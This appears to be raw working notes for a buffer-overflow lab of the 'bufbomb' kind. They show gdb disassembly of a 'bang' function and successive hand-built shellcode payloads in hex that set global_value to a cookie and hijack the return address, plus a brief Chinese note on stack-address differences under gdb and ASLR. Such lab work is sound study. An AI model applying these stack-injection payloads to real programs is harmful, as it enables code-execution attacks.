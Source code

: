 173     {
0x0000000000401349 <+0>:     55      push   rbp
0x000000000040134a <+1>:     48 89 e5        mov    rbp,rsp
0x000000000040134d <+4>:     48 83 ec 10     sub    rsp,0x10
0x0000000000401351 <+8>:     89 7d fc        mov    DWORD PTR [rbp-0x4],edi

174         if (global_value == cookie) {
0x0000000000401354 <+11>:    8b 15 f6 2d 00 00       mov    edx,DWORD PTR [rip+0x2df6]        # 0x404150 <global_value>
0x000000000040135a <+17>:    8b 05 e8 2d 00 00       mov    eax,DWORD PTR [rip+0x2de8]        # 0x404148 <cookie>
0x0000000000401360 <+23>:    39 c2   cmp    edx,eax
0x0000000000401362 <+25>:    75 28   jne    0x40138c <bang+67>

175             printf("Bang!: You set global_value to 0x%x\n", global_value);
0x0000000000401364 <+27>:    8b 05 e6 2d 00 00       mov    eax,DWORD PTR [rip+0x2de6]        # 0x404150 <global_value>
0x000000000040136a <+33>:    89 c6   mov    esi,eax
0x000000000040136c <+35>:    48 8d 05 fd 0c 00 00    lea    rax,[rip+0xcfd]        #
0x402070
0x0000000000401373 <+42>:    48 89 c7        mov    rdi,rax
0x0000000000401376 <+45>:    b8 00 00 00 00  mov    eax,0x0
0x000000000040137b <+50>:    e8 10 fd ff ff  call   0x401090 <printf@plt>

176             validate(2);
0x0000000000401380 <+55>:    bf 02 00 00 00  mov    edi,0x2
0x0000000000401385 <+60>:    e8 e5 08 00 00  call   0x401c6f <validate>
0x000000000040138a <+65>:    eb 1c   jmp    0x4013a8 <bang+95>

177         } else
178             printf("Misfire: global_value = 0x%x\n", global_value);
0x000000000040138c <+67>:    8b 05 be 2d 00 00       mov    eax,DWORD PTR [rip+0x2dbe]        # 0x404150 <global_value>
0x0000000000401392 <+73>:    89 c6   mov    esi,eax
0x0000000000401394 <+75>:    48 8d 05 fa 0c 00 00    lea    rax,[rip+0xcfa]        #
0x402095
0x000000000040139b <+82>:    48 89 c7        mov    rdi,rax
0x000000000040139e <+85>:    b8 00 00 00 00  mov    eax,0x0
0x00000000004013a3 <+90>:    e8 e8 fc ff ff  call   0x401090 <printf@plt>

179         exit(0);
0x00000000004013a8 <+95>:    bf 00 00 00 00  mov    edi,0x0
0x00000000004013ad <+100>:   e8 7e fd ff ff  call   0x401130 <exit@plt>

global_value 0x404150
rsp = 0x7fffffffe000
rsp - global_value = 7fffffbf9eb0

0x0000000000401349 <+0>:     55      push   rbp
0x000000000040134a <+1>:     48 89 e5        mov    rbp,rsp
0x000000000040134d <+4>:     48 83 ec 10     sub    rsp,0x10


68 54 13 40 00  push 0x401354
0x0000000000001131 <+8>:     b8 50 41 40 00  mov    eax,0x404150
0x0000000000001136 <+13>:    c7 00 c3 7d 0d 0c       mov    DWORD PTR [rax],0xc0d7dc3
c3 ret

68 54 13 40 00 b8 50 41 40 00 c7 00 c3 7d 0d 0c c3

68 54 13 40 00 b8 50 41 
40 00 c7 00 c3 7d 0d 0c 
c3 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
30 e0 ff ff ff 7f 00 00
d0 df ff ff ff 7f 00 00

68 54 13 40 00 b8 50 41 40 00 c7 00 c3 7d 0d 0c c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 30 e0 ff ff ff 7f 00 00 d0 df ff ff ff 7f 00 00

0x7fffffffdfc0

0x0000000000401349 <+0>:     55      push   rbp
0x000000000040134a <+1>:     48 89 e5        mov    rbp,rsp
0x000000000040134d <+4>:     48 83 ec 10     sub    rsp,0x10
0x0000000000001131 <+8>:     b8 50 41 40 00  mov    eax,0x404150
0x0000000000001136 <+13>:    c7 00 c3 7d 0d 0c       mov    DWORD PTR [rax],0xc0d7dc3
0x0000000000001131 <+8>:     48 b8 54 13 40 00 00 00 00 00  movq    rax,0x401354
 ff e0 jmp rax
48 b8 54 13 40 00 00 00 00 00

55 48 89 e5 48 83 ec 10 
b8 50 41 40 00 c7 00 c3 
7d 0d 0c 48 b8 54 13 40 
00 00 00 00 00 ff e0 00
20 e0 ff ff ff 7f 00 00 
c0 df ff ff ff 7f 00 00 
55 48 89 e5 48 83 ec 10 b8 50 41 40 00 c7 00 c3 7d 0d 0c 48 b8 54 13 40 00 00 00 00 00 ff e0 00 20 e0 ff ff ff 7f 00 00 d0 df ff ff ff 7f 00 00 


55 48 89 e5 48 83 ec 10 b8 50 41 40 00 c7 00 c3 7d 0d 0c 48 b8 54 13 40 00 00 00 00 00 ff e0 00 20 e0 ff ff ff 7f 00 00 49 40 13 00 00 00 00 00 



"\x48\xb8\x50\x41\x40\x00\x00\x00\x00\x00"
48 b8 50 41 40 00 00 00 00 00

68 54 13 40 00  push 0x401354
0x0000000000001131 <+8>:     48 b8 50 41 40 00 00 00 00 00  movq    rax,0x404150
0x0000000000001136 <+13>:    c7 00 c3 7d 0d 0c       mov    DWORD PTR [rax],0xc0d7dc3
c3 ret

68 54 13 40 00 48 b8 50 
41 40 00 00 00 00 00 c7 
00 c3 7d 0d 0c c3 00 00 
00 00 00 00 00 00 00 00 
30 e0 ff ff ff 7f 00 00
d0 df ff ff ff 7f 00 00

68 54 13 40 00 48 b8 50 41 40 00 00 00 00 00 c7 00 c3 7d 0d 0c c3 00 00 00 00 00 00 00 00 00 00 30 e0 ff ff ff 7f 00 00 d0 df ff ff ff 7f 00 00

0x0000000000001131 <+8>:     48 b8 50 41 40 00 00 00 00 00  movq    rax,0x404150
0x0000000000001136 <+13>:    c7 00 c3 7d 0d 0c       mov    DWORD PTR [rax],0xc0d7dc3
0x0000000000001131 <+8>:     48 b8 54 13 40 00 00 00 00 00  movq    rax,0x401354
ff e0 jmp rax

48 b8 50 41 40 00 00 00 
00 00 c7 00 c3 7d 0d 0c 
48 b8 54 13 40 00 00 00 
00 00 ff e0 00 00 00 00
30 e0 ff ff ff 7f 00 00
d0 df ff ff ff 7f 00 00

48 b8 50 41 40 00 00 00 00 00 c7 00 c3 7d 0d 0c 48 b8 49 13 40 00 00 00 00 00 ff e0 00 00 00 00 30 e0 ff ff ff 7f 00 00 d0 df ff ff ff 7f 00 00

68 6a 13 40 00  push 0x40136a
0x0000000000001131 <+8>:     b8 c3 d7 c0 00  mov    eax,0xc0d7dc3
c3 ret

68 6a 13 40 00 b8 50 41 
40 00 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
30 e0 ff ff ff 7f 00 00
d0 df ff ff ff 7f 00 00

68 6a 13 40 00 b8 c3 d7 c0 00 c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 30 e0 ff ff ff 7f 00 00 d0 df ff ff ff 7f 00 00
// second
68 64 13 40 00 b8 c3 d7 c0 00 c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 30 e0 ff ff ff 7f 00 00 d0 df ff ff ff 7f 00 00


68 6a 13 40 00  push 0x40136a
c3 ret

68 6a 13 40 00 c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 30 e0 ff ff ff 7f 00 00 d0 df ff ff ff 7f 00 00


Q:
直接运行和gdb不一致，可能gdb不能过，直接运行可以过，原因在于栈地址不一样

不同终端地址不一样，

每次重启地址随机化都会重置

0:   8b 04 25 48 41 40 00    mov    0x404148,%eax
7:   89 04 25 50 41 40 00    mov    %eax,0x404150
e:   48 c7 c2 49 13 40 00    mov    $0x401349,%rdx
15:  ff e2                   jmp    *%rdx

8b 04 25 48 41 40 00 
89 04 25 50 41 40 00 
48 c7 c2 49 13 40 00 
ff e2 
00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 d0 df ff ff ff 7f 00 00



0:   8b 04 25 48 41 40 00    mov    0x404148,%eax //把 cookie 的值移入 %eax
7:   89 04 25 50 41 40 00    mov    %eax,0x404150 //把%eax 的值移入  global_value
e:   68 69 14 40 00          push   $0x401469 //将合法返回地址入栈
13:   48 c7 c2 49 13 40 00    mov    $0x401349,%rdx // 将bang的首指令地址移到 %rdx
1a:   ff e2                   jmp    *%rdx //跳到bang的首指令

8b 04 25 48 41 40 00 
89 04 25 50 41 40 00 
68 69 14 40 00 
48 c7 c2 49 13 40 00 
ff e2 
00 00 00 00 
30 e0 ff ff ff 7f 00 00 d0 df ff ff ff 7f 00 00
